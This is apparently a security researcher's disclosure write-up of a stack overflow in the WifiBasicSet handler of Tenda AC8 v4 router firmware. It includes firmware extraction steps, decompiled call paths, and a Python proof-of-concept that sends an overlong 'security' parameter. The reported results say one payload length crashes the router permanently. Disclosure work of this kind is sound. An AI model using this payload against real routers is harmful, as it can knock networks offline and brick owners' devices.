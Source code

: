 # Tenda AC8 v4 V16.03.34.06
Under **/goform/WifiBasicSet**, the parameters **security** and **security_5g** can lead to stack overflow vulnerabilities【The following takes the stack overflow caused by the **security** parameter as an example】
## Environment & Tool Versions Used:  
- Ubuntu 22.04  
- binwalk v2.2.1  
- IDA Pro 9.0  


## Environment Preparation  
Download the corresponding router firmware from the official website: https://tenda.com.cn/material/show/3518  
- Firmware: AC8 v4 Upgrade Software_V16.03.34.06  
- Software Version: V16.03.34.06  
- Update Date: November 29, 2024  
- File Size: 6.86 MB  
- File Format: zip  
![hj1](hj1.png)

After unzipping the downloaded zip file, use the binwalk tool to parse the firmware:  
```bash
binwalk -eM [firmware file]  # The latest binwalk version has poor parsing effect, so v2.2.1 is used here.
```  

After normal parsing, navigate to the `squashfs-root` directory. The router startup program path is `./bin/httpd`. Use the `file` command to check the program:  
![hj2](hj2.png)


## Vulnerability Proof  
In the `/goform/WifiBasicSet` endpoint, the `security` and `security_5g` parameters cause a stack overflow vulnerability. The `formWifiBasicSet` function calls `sub_45F3E8`, which proceeds through the following functions:  
`sub_45F3E8 -> sub_45E1C4 -> sub_45DC58`  

In `sub_45DC58`, the `strcpy` function at line 30 causes a stack overflow vulnerability.  

![1_1](1_1.png)

the program will accept the `security` parameter in `sub_45DC58`. An attacker can input sufficiently long data into this parameter, causing a buffer overflow when the program executes the `strcpy` function.  

### POC (Proof of Concept)  
```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0',
    "Cookie": "password=381acc5cfbc629c40245413ef90a4439mffcvb"  # If the router has a password, capture the cookie first.
}

url = "http://tendawifi.com"
url_vuln = url + "/goform/WifiBasicSet"

# payload = 'a'*0x100  # No stack overflow, router runs normally.
# payload = 'a'*(0x100+8)  # Not recommended; may brick the router.
payload = 'a'*0x1000  # Management interface returns to login page.

data = {
    'security': payload
}

response = requests.post(url_vuln, data=data, headers=headers)
print(response.text)
```  


#### Test Results  
1. When `payload = 'a'*0x100`:  
![1_2](1_2.png)

2. When `payload = 'a'*0x1000`:  
![1_3](1_3.png)
(The router's management interface returns to the login page, but other devices remain connected.)  

3. When `payload = 'a'*(0x100+8)`:  
The router crashes, disconnects all devices, and cannot be reconnected even after a reboot.  
![1_4](1_4.png)

**Note**: The vulnerability was confirmed through code auditing and real-world testing.
